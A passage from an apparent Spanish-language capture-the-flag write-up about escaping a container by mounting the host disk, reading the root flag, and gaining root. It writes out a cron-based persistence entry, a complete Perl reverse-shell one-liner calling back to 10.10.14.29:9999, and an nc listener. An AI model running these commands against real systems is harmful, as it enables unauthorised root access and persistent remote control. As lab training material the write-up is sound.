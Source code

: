 mirando la maquina vemos con el comando `df -h` que hay una montura /dev/sda2 tirando a /backup.
Si miramos un poco los /dev/sda*

```bash
ls -la /dev/sda*

#Output
/dev/sda
/dev/sda1
/dev/sda2
/dev/sda3
```

Montamos los directorios para ver lo que hay

```bash
mkdir /mnt/test
mount /dev/sda2 /mnt/test
cd /mnt/test
ls -la
cd root
ls -la
cat root.txt
```

Podemos leer la flag. Pero como queremos una shell interactiva continuamos.
## Privilege Escalation {-}

### Rootear la maquina (ganar accesso al systema completo){-}

```bash
cd /mnt/test/etc/cron.d
ls
echo '* * * * * root sh /tmp/reverse.sh' > tarea
cd ..
cd ..
cd tmp
```

creamos una reverse shell con perl

```bash
perl -e 'use Socket;$i="10.10.14.29";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

y la enviamos al contenedor con base64 en el directorio /mnt/test/tmp/ como reverse.sh

```bash
chmod +x reverse.sh
```

nos ponemos en escucha por el puerto 9999

```bash
nc -nlvp 9999
```

ya ganamos acceso a la maquina victima real como root.
